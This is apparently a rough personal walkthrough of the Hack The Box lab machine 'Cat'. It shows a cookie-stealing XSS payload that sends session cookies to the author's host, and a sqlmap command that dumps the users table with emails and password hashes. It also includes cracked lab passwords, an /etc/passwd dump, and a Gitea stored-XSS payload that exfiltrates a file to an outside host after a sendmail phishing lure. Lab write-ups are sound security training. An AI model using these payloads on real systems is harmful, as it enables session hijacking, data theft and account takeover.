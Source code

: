 

http://cat.htb/accept_cat.php


there is also a .git database Im able to fuzz this and find a description which im allowed to pull the files with all the endpoints in the web server. This is where i see the accept_cat.php endpoint.

This worked for XSS in the user parameter. to steal the PHPSESSION of admin. 


This happens when you set your username to the XSS payload. when you then register a contestant. The XSS payload below triggers. I had some trouble using a port so i ended up just hosting a python server on port 80.

<script>document.location='http://10.10.14.8/?c='+document.cookie;</script>

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.53 - - [05/Feb/2025 12:22:20] "GET /?c=PHPSESSID=achc8u8ovdga4u92nac4mtjueb HTTP/1.1" 200 -
10.10.11.53 - - [05/Feb/2025 12:22:20] code 404, message File not found
10.10.11.53 - - [05/Feb/2025 12:22:20] "GET /favicon.ico HTTP/1.1" 404 -


I assume that because i cannot 


http://cat.htb/accept_cat.php

There is also a 

http://cat.htb/admin.php

endpoint

http://cat.htb/accept_cat.php

This endpoint had a vulnerability inside of the catName vulnerability. so i use SQLmap to dump the db and get this



[12:58:03] [INFO] retrieved: axel2017@gmail.com
[12:58:14] [INFO] retrieved: d1bbba3670feb9435c9841e46e60ee2f
[12:58:30] [INFO] retrieved: 1
[12:58:31] [INFO] retrieved: axel
[12:58:33] [INFO] retrieved: rosamendoza485@gmail.com
[12:58:42] [INFO] retrieved: ac369922d560f17d6eeb8b2c7dec498c
[12:58:59] [INFO] retrieved: 2
[12:59:00] [INFO] retrieved: rosa


[12:59:04] [INFO] retrieved: robertcervantes2000@gmail.com
[12:59:16] [INFO] retrieved: 42846631708f69c00ec0c0a8aa4a92ad
[12:59:31] [INFO] retrieved: 3
[12:59:31] [INFO] retrieved: robert
[12:59:34] [INFO] retrieved: fabiancarachure2323@gmail.com
[12:59:51] [INFO] retrieved: 39e153e825c4a3d31

```
sqlmap -u "http://cat.htb/accept_cat.php" --data "catId=1&catName=mal" --cookie="PHPSESSID=6igj37k24aq49a4vgpevpplca3" -p catName --dbms=SQLite -T users --dump
```





Rosas Password cracks on crack station and i get the password


rosa : soyunaprincesarosa


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
axel:x:1000:1000:axel:/home/axel:/bin/bash
rosa:x:1001:1001:,,,:/home/rosa:/bin/bash
git:x:114:119:Git Version Control,,,:/home/git:/bin/bash
smmta:x:115:120:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:116:121:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin
jobert:x:1002:1002:,,,:/home/jobert:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false


the only other people in this are named 

axel
rosa 
jobert 
_laurel


I look into the APACHE logs for these users one by one and see this when i look for axel
grep axel /var/log/apache2/access.log


axel : aNdZwgC4tI9gnVXv_e3Q

running locally under port 3000 something sticks out to me.

also does the user jobert and git. as they both have console.

so lets checkout port 3000 by port forwarding
ssh -L 3000:localhost:3000 axel@10.10.11.53

oh also it says you have mail when i login so we check /var/mail


We are currently developing an employee management system. Each sector administrator will be assigned a specific role, while each employee will be able to consult their assigned tasks. The project is still under development and is hosted in our private Gitea. You can visit the repository at: http://localhost:3000/administrator/Employee-management/. In addition, you can consult the README file, highlighting updates and other important details, at: http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md.



says theres a endpoint at 3000 

The web app is running gitea 1.23.1 which is vuln to 

https://www.exploit-db.com/exploits/52077


axel can login to the gitea with the creds


axel : aNdZwgC4tI9gnVXv_e3Q

XSS payload.

```
<a href="javascript:fetch('[http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(response](http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php'\).then\(response "http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(response") => response.text()).then(data => fetch('[http://10.10.xx.xx/?response=](http://10.10.14.10/?response= "http://10.10.xx.xx/?response=")' + encodeURIComponent(data))).catch(error => console.error('Error:', error));">XSS test</a>

```

http://localhost:3000/axel/repos/

You must do these steps.
 
1. Create new repo
2. Make the description this payload above to read index.php file and name it repos
3. create a file inside the repo named repos so that it can be accessed
4. Setup a python listener on port 80
5. echo -e "Subject: test \n\nHello check my repo http://localhost:3000/axel/repos" | sendmail jobert@localhost
6. jobert clicks


echo -e "Subject: test \n\nHello check my repo http://localhost:3000/axel/repos" | sendmail jobert@localhost


this gives you 

- Username: admin

- Password: IKw75eR0MR7CMIxhH0


which allows you to su to root and get root.txt
